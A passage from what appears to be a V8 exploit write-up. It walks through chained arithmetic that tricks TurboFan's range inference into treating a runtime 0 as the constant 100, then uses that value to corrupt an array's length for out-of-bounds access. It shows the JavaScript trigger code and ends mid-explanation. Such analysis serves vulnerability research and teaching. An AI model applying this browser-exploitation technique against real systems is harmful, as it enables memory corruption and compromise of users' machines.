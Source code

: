 We chain arithmetic operations to amplify the confusion:

```javascript
let i1 = 2 - (sign + 1);      // infer: (0, 1),     actual: (0, 2)
let i2 = (5 - (i1 + 4)) >> 1; // infer: (0, 0),     actual: (-1, 0)
let i3 = 1 * i2 + 1;          // infer: (1, 1),     actual: (0, 1)
let i4 = i3 * 100;            // infer: (100, 100), actual: (0, 100)
```

**Training execution** (when `sign = 1`):

```
i1 = 2 - (1 + 1)      = 0
i2 = 5 - (0 + 4) >> 1 = 0
i3 = 1 * 0 + 1        = 1
i4 = 1 * 100          = 100
```

**Exploitation execution** (when `sign = -1`):

```
i1 = 2 - (-1 + 1)     = 2
i2 = 5 - (2 + 4) >> 1 = -1
i3 = 1 * -1 + 1       = 0
i4 = 0 * 100          = 0
```

The key: TurboFan infers `i4 = 100` (constant), but at runtime `i4 = 0`.

### Step 5: Array Bounds Corruption

Now we use `i4` to corrupt an array:

```javascript
let arr = new Array(8); // Capacity: 8 elements
arr[0] = 13.37; // Convert to HOLEY_DOUBLE_ELEMENTS
arr[i4] = 13.37; // TurboFan thinks i4=100, actually i4=0
return arr;
```

During TurboFan's [Inlining phase](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/compiler/js-native-context-specialization.cc;l=3928;drc=609a85c2a1bd77d6f6905369f4bc4fcf34c5db09), it generates:

1. **`MaybeGrowFastElements`**: Checks if `i4 < capacity(8)`
2. **Length update**: `arr.length = i4 + 1`

Since TurboFan believes `i4 = 100` (constant), the [ConstantFoldingReducer](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/compiler/constant-folding-reducer.cc;l=32;drc=609a85c2a1bd77d6f6905369f4bc4fcf34c5db09) optimizes the length update to:

```cpp
arr.length = 101  // Hardcoded constant!
```

During Turboshaft's [MachineLowering phase](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/compiler/turboshaft/machine-lowering-reducer-inl.h;l=3465;drc=609a85c2a1bd77d6f6905369f4bc4fcf34c5db09), the generated code becomes:
